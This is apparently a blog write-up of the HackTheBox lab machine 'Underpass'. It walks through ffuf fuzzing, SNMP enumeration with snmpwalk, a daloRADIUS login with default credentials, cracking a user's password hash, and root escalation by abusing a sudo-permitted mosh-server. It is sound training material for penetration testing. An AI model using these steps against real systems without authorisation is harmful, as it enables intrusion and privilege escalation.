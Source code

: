 ```yaml
---
title: HTB - Underpass (easy)
date: '2025-04-09'
tags: ['machine', 'linux', 'daloradius', 'mosh-server']
draft: false
summary: Discovered SNMP service on UDP port which reveals a daloRADIUS server web app with default credentials. Gained user access by credentials leak in the dashboard. User was allowed to run mosh-server with sudo permissions which enabled us to start a mosh-client and gain root access.
---
```


<TOCInline toc={props.toc} asDisclosure />

## Scanning

Initially, i scanned for TCP ports but found nothing interesting just default Apache webpage

![Description](/static/images/htb/linux/underpass/1.png)

Then, I decided to do a UDP scan

![Description](/static/images/htb/linux/underpass/2.png)

---

## Fuzzing

Used ffuf to fuzz for subdomains

```
❯ ffuf -u http://underpass.htb -H "Host: FUZZ.underpass.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -fs 10671

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://underpass.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Header           : Host: FUZZ.underpass.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 10671
________________________________________________

:: Progress: [4734/4734] :: Job [1/1] :: 501 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

Also fuzzed for directories and found some 403's

```
❯ ffuf -u http://underpass.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://underpass.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 45ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 46ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 130ms]
index.html              [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 18ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 18ms]
:: Progress: [4734/4734] :: Job [1/1] :: 454 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Anyways back to the UDP scan result. Can see just now, port 161 is open with the service being SNMP. So we will need to do some SNMP Enumeration. At first, I used `snmpcheck` but I don't know why it wasn't working. Sooo, I used `snmpwalk` . Looked up for the command syntax [here](https://gabb4r.gitbook.io/oscp-notes/service-enumeration/snmp-enumeraion).&#x20;

```
❯ snmpwalk -c public -v 2c 10.10.11.48

iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (225710) 0:37:37.10
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (226774) 0:37:47.74
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E8 0C 16 0E 3A 2E 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 10
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 344
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

The most noticable part is this

```
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
```

It mentions the local domain has a daloRADIUS server setup. According to Google, daloRADIUS is an advanced RADIUS web platform aimed at managing hotspots and general-purpose ISP deployments.

Since it mentions 'web platform' and the initial TCP scan showed HTTP was up, I tried to look for the login page in the [Github repo](https://github.com/lirantal/daloradius)

And after looking around, I found the path to the login page

![Description](/static/images/htb/linux/underpass/3.png)

---

## Gaining Access

![Description](/static/images/htb/linux/underpass/4.png)

Now, the funny thing is I also looked for the default credentials in the github repo but I think I got lost so I just make a quick google search and Whaddayaknow...

![Description](/static/images/htb/linux/underpass/5.png)

We are met with the dashboard after logging in as administrator

![Description](/static/images/htb/linux/underpass/6.png)

There is 1 available user

![Description](/static/images/htb/linux/underpass/7.png)

Plaintext password but looking at /users/pref-auth-password-edit.php in the repo, it shows us users password is hashed. Therefore, I will crack it using Crackstation

![Description](/static/images/htb/linux/underpass/8.png)

Anddd we got the password. Let us SSH into the machine as user 'svcMosh' and user flag is secured

![Description](/static/images/htb/linux/underpass/9.png)

---

## Privesc

Now we use `sudo -l` to look for misconfigured commands that user can run with `sudo`

![Description](/static/images/htb/linux/underpass/10.png)

Firstly, this is my first time hearing about `mosh-server` and the name of it really threw me off because how of funny it sounds LOL. Anyways, I did some research and experiment with some commands and it seems that with the server it also has a client to connect according to the [docs](https://mosh.org/).

I had to install `mosh` on my local machine to connect to the server.

Running the server itself on the target machine gave a port to connect to and a key that changes randomly every time it executed

![Description](/static/images/htb/linux/underpass/11.png)

I spent quite a while on the syntax for the `mosh-client` but according to this Linux-manual [website](https://linux.die.net/man/1/mosh-client), the syntax would be&#x20;

```
MOSH_KEY=KEY mosh-client IP PORT
```

Generating a new key for the server and entering the command above will immediately give us root shell session in the `mosh-client` tab

![Description](/static/images/htb/linux/underpass/12.png)

Just like that, root flag secured!
